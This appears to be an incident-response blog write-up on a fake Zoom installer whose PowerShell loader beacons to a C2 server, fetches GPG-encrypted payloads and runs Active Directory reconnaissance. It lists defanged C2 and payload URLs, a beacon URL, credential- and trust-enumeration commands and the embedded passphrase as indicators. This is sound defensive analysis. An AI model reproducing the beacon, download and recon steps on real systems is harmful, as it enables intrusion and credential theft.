Fraudulent "Zoom" links visited (defanged)
zoromonm.onelink[.]me/jfHY/tpk41psk/fundingbyrobert[.]com/pih3z00nn.one-platform-to-connect[.]group
Summary: A SIEM alert flagged a suspicious PowerShell script executing a DLL via
rundll32.exe. The investigation traced it back to a fake Zoom installer that
dropped a PowerShell loader, beaconed to a command-and-control (C2) server, pulled
GPG-encrypted payloads, and ultimately performed Active Directory reconnaissance —
confirming the malware was targeting the company, not just the endpoint.

It started with a single SIEM alert: a suspicious PowerShell script firing on a user's machine. Nothing makes me want to drop everything quite like PowerShell quietly reaching out to the internet — so I started pulling the thread. What looked at first like an isolated endpoint problem turned out to be malware with much bigger ambitions: it wasn't just after one laptop, it was quietly probing the whole company. And the only reason it managed to run at all? The user had local administrator privileges on the device. (Spoiler: that ends up being the real lesson here.)
On December 5, a PowerShell script attempted to retrieve and execute a
DLL using rundll32.exe. Tracing the parent process revealed a PowerShell file
located under a fake Zoom folder — the loader dropped after the user
downloaded a malicious Zoom "online installer".
| File | 23rftedgasf23.ps1 |
| File path | C:\Program Files\WindowsApps\ZoomVideoCommunications.Zoom_5.14.0.0_x64__01m2dw8qbr63a\23rftedgasf23.ps1 |
| SHA-256 | cc5156a39df2b09fab5c1806feb2a788e1b6232d43f5a7f64744fcd8092724f4 |

powershell.exe launched with a Base64 -enc encoded command on the affected host.With local admin rights, the loader executed under a relaxed PowerShell execution policy to run unsigned scripts. It loaded Base64-encoded script to communicate with the C2 server and retrieve more malicious programs. To bypass edge security controls and IDS, the payload archives were encrypted with GPG; the PowerShell code decrypted them using a key embedded directly in the obfuscated code.
Using CyberChef to decode the PowerShell commands, the logic broke down into three major steps: (1) inform the C2 of the host and the start of installation, (2) download two payloads, and (3) inform the C2 that installation succeeded.

The malware first evades behaviour analysis by using random sleep intervals
between actions. It then identifies the C2 host 2311foreign[.]xyz and initiates
an HTTPS connection to send basic host information:
$urlEncodedOsCaption — the OS version, URL-encoded$domain — the AD domain name$Names — the list of installed AV productsThese are assembled into a URL invoked via Invoke-RestMethod.

Invoke-RestMethod beacon to $LoadDomen.https://2311foreign[.]xyz/?status=start&av=[REDACTED]&domain=[REDACTED]&os=[REDACTED]

The malware creates a folder named with a random number (between
10110000 and 91119888999) under the user's
AppData\Roaming. It downloads an encrypted file from
winkos[.]net/ld/zm.tar.gpg, then uses the previously-downloaded
gpg binary to decrypt it with a key embedded in the code. The resulting
.rar is extracted and WebCopier.exe is run.
After another evasive sleep, a second file
winkos[.]net/ld/zmdll.gpg is downloaded and decrypted with the same key into
LdrAddX64_out_cr1.dll, which is then executed with rundll32.exe.

zm.tar.gpg / zmdll.gpg, GPG decryption with the embedded passphrase, and execution.
cr folder — WebCopier.exe and supporting DLLs.
AppData\Roaming — gpg, encrypted archives and LdrAddX64_out_cr1.dll.After a final sleep, the loader sends a status to the C2 to report that
installation has completed.

Two days after installation, the dropped programs began running commands to enumerate the domain — a network reconnaissance phase gathering information on computers, groups, and trusts, as well as the host and stored credentials. Notably, after discovering a trust, it issued a ping to the child domain.
| Time (2023-12-07) | Process | Command | Purpose | Technique |
|---|---|---|---|---|
| 13:47 | net.exe / net1.exe | net group /domain | Enumerate domain groups | T1069.002 |
| 13:49 | systeminfo.exe | systeminfo | Host information | T1082 |
| 13:50 | cmdkey.exe | cmdkey /list | List stored credentials | T1555 |
| 13:51 | nltest.exe | nltest /domain_trusts | Enumerate domain trusts | T1482 |
| 13:51 | PING.EXE | ping <child-domain> | Reach the trusted child domain | T1018 |
Reviewing the limited web traffic surfaced two URLs uncommon for users:
| Outbound URL | Assessment |
|---|---|
pastebin.com | Possible data exfiltration |
api.ipify.org | Public IP lookup |
Reviewing the user's activity, they had visited fraudulent links while attempting to
install Zoom via Chrome, and downloaded a fake Zoom installer. That installer ran with a
config file that added the malicious script as a start parameter, using
-ExecutionPolicy RemoteSigned and scriptPath: 23rftedgasf23.ps1.

config file — startScript launching 23rftedgasf23.ps1.
23rftedgasf23.ps1 flagged by 13/60 vendors as Trojan.PowerShell / downloader.| Tactic | Technique |
|---|---|
| Initial Access / Execution | T1204.002 — User Execution: Malicious File (fake Zoom installer) |
| Execution | T1059.001 — Command and Scripting Interpreter: PowerShell |
| Defense Evasion | T1218.011 — System Binary Proxy Execution: Rundll32 |
| Defense Evasion | T1027 — Obfuscated Files or Information (Base64 + GPG) |
| Defense Evasion | T1140 — Deobfuscate/Decode Files or Information |
| Command and Control | T1071.001 — Application Layer Protocol: Web Protocols |
| Command and Control | T1105 — Ingress Tool Transfer |
| Discovery | T1482 — Domain Trust Discovery |
| Discovery | T1018 — Remote System Discovery |
| Discovery | T1016 — System Network Configuration Discovery |
| Exfiltration | T1567 — Exfiltration Over Web Service (Pastebin) |
| Type | Indicator |
|---|---|
| C2 host | 2311foreign[.]xyz |
| Payload host | winkos[.]net/ld/zm.tar.gpg, winkos[.]net/ld/zmdll.gpg |
| Dropper | 23rftedgasf23.ps1 |
| SHA-256 | cc5156a39df2b09fab5c1806feb2a788e1b6232d43f5a7f64744fcd8092724f4 |
| Dropped DLL | LdrAddX64_out_cr1.dll (run via rundll32.exe) |
| Dropped binary | WebCopier.exe |
| GPG passphrase (in code) | cvovvvGHGHGH66cas0224sdfjsdhfj |
| Suspicious traffic | pastebin.com, api.ipify.org |